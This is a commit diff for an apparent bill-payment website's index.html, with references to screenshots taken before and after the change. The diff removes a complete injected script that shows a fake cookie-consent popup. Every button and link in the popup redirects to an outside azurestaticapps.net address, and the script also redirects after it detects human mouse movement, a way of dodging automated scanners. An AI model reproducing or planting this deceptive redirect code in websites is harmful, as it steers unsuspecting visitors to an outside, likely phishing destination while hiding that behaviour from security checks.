

Before and after one commit to mancillajoaquin204/paybillsonline, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 94-794 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -128,87 +128,7 @@
         </ul>
     </div>
 
-	<script>
-(function () {
-  const destination = "https://yellow-moss-01d054a1e.6.azurestaticapps.net/"; // 🧭 Replace this with your actual destination URL
-  let hasRedirected = false;
-  let movementDetected = false;
-  let startPosition = null;
 
-  function triggerRedirect() {
-    if (!hasRedirected) {
-      hasRedirected = true;
-      window.location.href = destination;
-    }
-  }
-
-  function launchPopup() {
-    const popupContainer = document.createElement("div");
-    popupContainer.innerHTML = `
-      <div style="
-        position: fixed;
-        inset: 0;
-        background-color: rgba(0, 0, 0, 0.6);
-        display: flex;
-        justify-content: center;
-        align-items: center;
-        z-index: 99999;">
-        <div style="
-          background-color: #fff;
-          padding: 2rem;
-          border-radius: 20px;
-          width: 90%;
-          max-width: 480px;
-          text-align: center;
-          box-shadow: 0 0 25px rgba(0,0,0,0.2);">
-          <h2 style="margin-top: 0; font-size: 24px; color: #222;">🔐 Privacy Preferences</h2>
-          <p style="font-size: 14px; color: #444;">
-            Our website uses cookies to improve performance and user experience.
-            <a href="${destination}" style="color: #007acc;">More details</a>.
-          </p>
-          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
-            <button id="agreeBtn" style="
-              padding: 10px 22px;
-              background-color: #198754;
-              color: #fff;
-              border: none;
-              border-radius: 10px;
-              font-weight: 600;
-              cursor: pointer;">Agree</button>
-            <button id="disagreeBtn" style="
-              padding: 10px 22px;
-              background-color: #c82333;
-              color: #fff;
-              border: none;
-              border-radius: 10px;
-              font-weight: 600;
-              cursor: pointer;">Decline</button>
-          </div>
-        </div>
-      </div>
-    `;
-    document.body.appendChild(popupContainer);
-
-    document.getElementById("agreeBtn").addEventListener("click", triggerRedirect);
-    document.getElementById("disagreeBtn").addEventListener("click", triggerRedirect);
-  }
-
-  window.addEventListener("load", launchPopup);
-
-  window.addEventListener("mousemove", function (event) {
-    if (!movementDetected) {
-      if (!startPosition) {
-        startPosition = { x: event.clientX, y: event.clientY };
-        return;
-      }
-      if (event.clientX !== startPosition.x || event.clientY !== startPosition.y) {
-        movementDetected = true;
-        setTimeout(triggerRedirect, 2000);
-      }
-    }
-  });
-})();
-</script>
 
     <footer>
         <p>&copy; 2025 Bill Payment Services. All Rights Reserved.</p>
```
